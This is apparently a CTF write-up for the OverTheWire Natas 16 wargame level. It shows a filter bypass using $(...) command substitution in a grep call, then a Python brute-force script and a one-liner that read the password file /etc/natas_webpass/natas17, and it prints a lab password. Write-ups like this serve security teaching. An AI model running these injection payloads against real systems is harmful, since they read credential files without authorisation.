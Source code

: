 ```yaml
---
layout: post
title: Natas16 Writeup
categories:
- CTF writeups
- natas
tags:
- beginner
- command injection
- python
- script
description: Weird Grep Command Injection
date: 2024-10-27 12:40 -0400
---
```

### Source Code Analysis

```php
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```

In this source code, we can see the `needle` parameter gets filtered
and placed directly into the grep command. So the first thing I could
think about is check for simple command injection, which I couldn't as
all of the operators are being filtered.

### Attack Vector

Doing some research reminds me the one of the most important function
for Linux, which is the command substitution `$(command)`. This allows
us to virtually run any command in the needle parameter, as this is pass
through as a `grep` command. With this the only thing missing is how can
we indicate the results of the command?

With the previous experience of natas15 and this being a `grep` command,
we can create a binary indicator. After a bit of trial and error, we know
that `doctors` is a single word in `dictionary.txt` (not a part of other words).
Then we can manipulate the needle parameter like this:

> `doctors$(grep a /etc/natas_webpass/natas17)`

For the substituted `grep` function, if the character exists in the password,
it will return the password, when combined with the word `doctors` it will not be found
in the dictionary. This means we can check if `doctors` exists in the response; If it
does, then the character does not exist in the password, vice versa.

### Some Regex Magic

Now for the last part, we have to know the order of the characters, it is impossible
to brute force the order of the password. For that we simply use the power of `regex`.

With `^` indicating the beginning of the word, we can check if the password starts with
some characters. For example, `^st` would match the word `start` and `star`, but not `ast`.
With this we can build a similar loop, finishing with a script to get the solution.

### Solution

```python
import requests
from requests.auth import HTTPBasicAuth
from halo import Halo

stage = 16
password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

username = f"natas{stage}"
url = f"http://natas{stage}.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth(username, password)

passwd = ""
passwd_len = 32
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

with Halo(text="Enumerating", spinner="dots") as loading:
    loading.start()
    print("\n")
    for i in range(passwd_len):
        for char in charset:
            # Move cursor up two lines and clear them before printing the new update
            print("\033[F\033[K\033[F\033[K", end="")

            data = {
                "needle": f"doctors$(grep ^{passwd + char} /etc/natas_webpass/natas17)"
            }

            print(f"Password: {passwd}\nQuery: {data}")

            r = requests.post(url, auth=HTTPBasicAuth(username, password), data=data)
            if "doctors" not in r.text:
                passwd += char
                break

print(f"Final password: {passwd}")

```

### Bonus Solution

This extra solution I came across in the comments section of [John Hammond's Writeup](https://youtu.be/6XlDsn-R5oQ?si=-ZWvsVRav3Cn66WC)
which is super interesting, so I've decided to include here as well.

> It's also possible to solve this with a single request using a redirection trick:
> `$(cat /etc/natas_webpass/natas17 > /proc/$$/fd/1)qqq`
>
> Explanation:
>
> `$$` - current bash PID
>
> `/proc/{process ID}/fd/1` - `stdout` of a specific process
>
> qqq - a search string likely to return empty results

Solution by [@geetub9073](https://www.youtube.com/@geetub9073)
